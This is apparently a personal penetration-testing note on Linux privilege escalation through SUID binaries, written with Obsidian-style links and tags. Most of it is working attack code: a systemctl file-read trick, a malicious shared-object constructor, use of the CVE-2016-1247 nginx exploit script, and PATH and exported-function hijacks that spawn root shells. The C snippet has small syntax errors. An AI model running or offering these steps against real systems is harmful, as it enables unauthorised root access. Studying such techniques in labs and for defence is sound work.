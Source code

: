 -- -
Abuse software that is vulnerable to being hijacked to run a shell command or file read or something it shouldn't because it has its SUID bit set and runs as root always. 
### General workflow
#### Enum
![[Dark Arts/Privesc/Linux/Enumeration/SUIDs#^ed7f08]]
#### Find Exploits
Go to [GTFOBins](https://gtfobins.github.io/#+suid) and search the output of above command. 

### Things I've Exploited
#### systemctl
#sytemctlexploit It is a file read exploit, so you won't get a shell, but you can read any file root can. 
```bash
TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
cat /tmp/output # outputs the file you wanted to read
```
### Shared Object Injection

^2ec112

#SOInjection 
#### Enum
![[Dark Arts/Privesc/Linux/Enumeration/SUIDs#^8b428f]]
#### Exploit
```bash
# So this will be an example, the specifics in your situation will depend on the situation you are in. 

# in this example, it was looking for the file:
# /home/user/.config/libcalc.so
# .config nor libcalc.so exist at those locations, so we will make the directory and create some C code that will hijack execution when suid-so picks it up
cd /home/user
mkdir .config
cd .config
vim libcalc.c
```
**libcalc.c**
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p")
}
```
#### Compile and exploit
```bash
# Compile to the expected location with the expected file
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/.config/libcalc.c

# run original suid program
/usr/local/bin/suid-so
```

#### CVE-2016-1247
#cve-2016-1247  [Explanation](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html), If certain conditions are met, a user www-data is able to escalate privileges to root. 
[[Dark Arts/Privesc/Linux/Enumeration/SUIDs#^14400b|Enum]]
##### Exploit
Assuming enum was done and the conditions are right, download script from [here](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html) , and [[Dark Arts I/File Transfer/Linux|file transfer]] it to the target, then simply run the script: 

```bash
./nginxed-root.sh /var/log/nginx/error.log

# then you need to wait for the nginx service to be restarted, or it can manually be done by root, ssh as root into server:
invoke-rc.d nginx rotate >/dev/null 2>&1

# obviously if you already have root to force it, this is useless so practically, you will need to sit and wait for nginx to restart for some other reason. 
```

#### Env Variables

^460797

This relies on weird/custom programs with suid bit set, there are 2 examples worked out here for two situations
1. Relative path used
2. Absolute path used

Which is used is determined through [[Dark Arts/Privesc/Linux/Enumeration/SUIDs|Enum]]
##### Relative Path
Obviously, the specifics of what program you are hijacking and which SUID you are running is different depending on the situation, but steps should more or less be the same except the name of the two programs here.
```bash 
# in this example, the output from strings revealed:
# service apache2 start
# and the vulnerable suid program in this example is
# /usr/local/bin/suid-env

# in this case, you can add to your $PATH and set a location you control to the front of your path, and write a program named "service" there so that when the SUID program is run, it calls to your malicious program rather than the real service program since it will check your controlled folder first. Since the calling program is root, that means your program will be run as root.

# so, write a program that spaws a shell then run SUID program

# Prepare malicious program and output to a directory you control
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c

# compile
gcc /tmp/service.c -o /tmp/service

# add your controlled directory to front of $PATH
export PATH=/tmp:$PATH

# run SUID program
/usr/local/bin/suid-env

# now you should have a root shell.
```

##### Absolute path
Obviously, the specifics of what program you are hijacking and which SUID you are running is different depending on the situation, but steps should more or less be the same except the name of the two programs here.
```bash
# in this example, the output from strings revealed:
# /usr/sbin/service apach2 start
# and the vulnerable suid program in this example is
# /usr/local/bin/suid-env

# in this case you will create a malicious function and make a symlink to it so that it's picked up by the vulnerable SUID program.

# Create malicious function
# malicious function copies /bin/bash to a controlled directory
# then, malicious function adds suid bit to copy of /bin/bash
# then, malicious function runs the copy of /bin/bash
# since the suid bit was set, it will be a root shell.
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

# set service program to refer to shell function, our malicious function, rather than running the actual program:
export -f /usr/sbin/service

# then just run the vulnerable suid program
/usr/local/bin/suid-env
```